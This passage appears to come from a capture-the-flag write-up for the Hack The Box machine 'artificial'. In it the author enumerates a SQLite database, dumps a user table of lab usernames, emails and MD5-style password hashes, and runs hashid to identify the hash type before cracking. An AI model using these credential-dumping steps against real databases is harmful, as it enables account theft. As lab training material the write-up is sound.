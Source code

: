 I list the tables with `.tables`, where I find the tables model and user:

```sql
sqlite> .tables
model  user
```

I analyze the schema of the user table with `.schema`, where I find that the last field is password:

```sql
sqlite> .schema user
CREATE TABLE user (
        id INTEGER NOT NULL, 
        username VARCHAR(100) NOT NULL, 
        email VARCHAR(120) NOT NULL, 
        password VARCHAR(200) NOT NULL, 
        PRIMARY KEY (id), 
        UNIQUE (username), 
        UNIQUE (email)
);
```

I select all tuples from the user table, where I find the user gael, who had their home on the server, and a hashed password:

```sql
sqlite> select * from user;
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
2|mark|mark@artificial.htb|0f3d8c76530022670f1c6029eed09ccb
3|robert|robert@artificial.htb|b606c5f5136170f15444251665638b36
4|royer|royer@artificial.htb|bc25b1f80f544c0ab451c02a3dca9fc6
5|mary|mary@artificial.htb|bf041041e57f1aff3be7ea1abd6129d0
6|a|a@a.com|0cc175b9c0f1b6a831c399e269772661
7|h|h@gmx.com|2510c39011c5be704182423e3a695e91
```

I use `hashid` to try to identify what type of hash was used:

```bash
hashid c99175974b6e192936d97224638a34f8                  
Analyzing 'c99175974b6e192936d97224638a34f8'
[+] MD2 
[+] MD5 
[+] MD4 
[+] Double MD5 
[+] LM 
[+] RIPEMD-128 
[+] Haval-128 
[+] Tiger-128 
[+] Skein-256(128) 
[+] Skein-512(128) 
[+] Lotus Notes/Domino 5 
[+] Skype 
[+] Snefru-128 
[+] NTLM 
[+] Domain Cached Credentials 
[+] Domain Cached Credentials 2 
[+] DNSSEC(NSEC3) 
[+] RAdmin v2.x
```
